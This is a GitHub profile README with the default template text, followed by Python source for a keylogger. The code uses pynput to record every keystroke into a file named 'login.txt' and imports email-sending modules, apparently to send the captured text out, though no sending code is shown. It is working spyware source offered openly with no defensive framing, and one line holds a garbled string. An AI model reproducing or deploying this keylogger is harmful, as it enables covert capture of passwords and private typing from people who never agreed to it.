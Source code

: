 - 👋 Hi, I’m @Sassa67
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Sassa67/Sassa67 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import smtplib
import time
from pynput.keyboard import Listener
from email.message import EmailMessage
#The keylogger function to record the key strokes in login.txt file
def write_to_file(key):
    letter=str(key)
    letter=letter.replace("'","")
    letter = letter.replace("\x16Key.backspaceKey.backspaceetterKey.backspaceKey.", "")
    if letter =='Key.space':
        letter=' '
    if letter=='Key.shift_r':
        letter=''
    if letter=='Key.ctrl_l':
        letter=""
    if letter =='Key.enter':
        letter="\n"
    if letter =='Key.delete':
        letter=' '
    if letter=='Key.backspace':
        letter=''
    with open("login.txt",'a') as f:
        f.write(letter)
with Listener(on_press=write_to_file) as l:
    l.join()
